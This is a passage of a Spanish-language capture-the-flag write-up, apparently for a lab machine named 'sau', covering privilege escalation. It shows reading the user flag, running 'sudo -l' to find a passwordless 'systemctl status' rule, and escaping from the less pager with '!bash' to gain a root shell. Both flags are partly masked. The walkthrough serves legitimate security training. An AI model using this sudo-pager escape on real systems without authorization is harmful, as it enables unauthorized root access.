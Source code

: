 ```bash
puma@sau:/opt/maltrail$ cat /home/puma/user.txt 
_______________________________________________________________________
1828c546f36f49******************
```
---
Para escalar privilegios a `root`, listamos los comandos que el usuario `puma` puede ejecutar con privilegios elevados.

```bash
puma@sau:/opt/maltrail$ sudo -l
_______________________________________________________________________
User puma may run the following commands on sau:
    (ALL : ALL) NOPASSWD: /usr/bin/systemctl status trail.service
```
---
Descubrimos que podemos ejecutar `systemctl status trail.service` como root sin necesidad de contraseña. Esto nos permite abusar de `systemctl` para obtener una shell con privilegios de root.

```bash
sudo /usr/bin/systemctl status trail.service
```
---
Dentro de la interfaz de `less`, podemos invocar un shell utilizando `!bash`, lo que nos da acceso como root.

```bash
!bash
root@sau:~#  whoami
_______________________________________________________________________
root
```
---
Finalmente, como `root`, leemos la flag de `root.txt`.

```bash
root@sau:~#  cat /root/root.txt
_______________________________________________________________________
7541a4920b13ec******************
```